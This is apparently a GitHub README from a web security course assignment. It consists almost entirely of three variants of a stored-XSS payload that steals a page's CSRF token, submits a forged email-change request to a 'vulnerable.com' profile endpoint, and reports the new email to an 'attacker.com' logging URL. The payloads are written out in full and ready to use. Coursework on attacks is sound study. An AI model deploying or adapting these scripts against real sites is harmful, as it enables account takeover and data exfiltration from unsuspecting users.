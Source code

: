 # WebSecurity-CSRF
Web Security Assignment on CSRF


# Script that will exploit the stored XSS vulnerability and trigger a CSRF

Super!
<form id="fake_form" action="" method="POST"> 
  <input type="hidden" id="my_mail" name="email" value=""> 
  <input type="hidden" id="my_csrf" name="csrf" value="">
</form> 


<script> 
  
  function rndMail() {
    return "test@" +  Math.floor(Math.random() * 100) + ".com"; 
 } 
 
  window.onload = function() { 

    let stolen_csrf = [...document.getElementsByTagName("form")].filter((f) => {
    return f.action.includes("/comment");
  })[0].children[0].value;
 
    let new_mail = rndMail()
    document.getElementById("my_mail").value = new_mail
    document.getElementById("my_csrf").value = stolen_csrf;
    let fakeForm = document.getElementById("fake_form")


    var formData = new FormData(fakeForm)
    let change_email_url = "http://www.vulnerable.com:5000/profile/update-email"
    fetch(change_email_url, {method: "POST", mode: "no-cors", body:formData}); 


    //attackers logging
    let url = "http://www.attacker.com:5000/leak?newmail=" + new_mail; 
    fetch(url, {method: "GET", mode: "no-cors"});
}
</script>










# Script with axios
<script src="https://cdn.jsdelivr.net/npm/axios/dist/axios.min.js"></script>
<script> 
 
  function rndMail() {
    return "test@" +  Math.floor(Math.random() * 100) + ".com";
  } 
 
  window.onload = function() { 

    let stolen_csrf = [...document.getElementsByTagName("form")].filter((f) => {
    return f.action.includes("/comment");
  })[0].children[0].value;
 
    let new_mail = rndMail()

    //attackers logging
    let url = "http://www.attacker.com:5000/leak?newmail=" + new_mail; 
    fetch(url, {method: "GET", mode: "no-cors"});

    let bodyFormData = new FormData();
    bodyFormData.append('csrf', stolen_csrf);
    bodyFormData.append('email', new_mail);

    axios.post('http://www.vulnerable.com:5000/profile/update-email', bodyFormData, {
        headers: {
            'Content-Type': 'application/json'
        }
    })
}
</script>





# Previous working script with form submit
Super!
<form id="fake_form" action="http://www.vulnerable.com:5000/profile/update-email" method="POST"> 
  <input id="my_mail" name="email" value=""> 
  <input id="my_csrf" name="csrf" value=""> 
</form> 

<script> 
 
  function rndMail() {
    return "test@" +  Math.floor(Math.random() * 100) + ".com"; 
 } 
 
  window.onload = function() { 

    let stolen_csrf = [...document.getElementsByTagName("form")].filter((f) => {
    return f.action.includes("/comment");
  })[0].children[0].value;
 
    let new_mail = rndMail()
    document.getElementById("my_mail").value = new_mail
    document.getElementById("my_csrf").value = stolen_csrf;

    //attackers logging
    let url = "http://www.attacker.com:5000/leak?newmail=" + new_mail; 
    fetch(url, {method: "GET", mode: "no-cors"});


    let fakeForm = document.getElementById("fake_form");
    fakeForm.submit(); 
}
</script>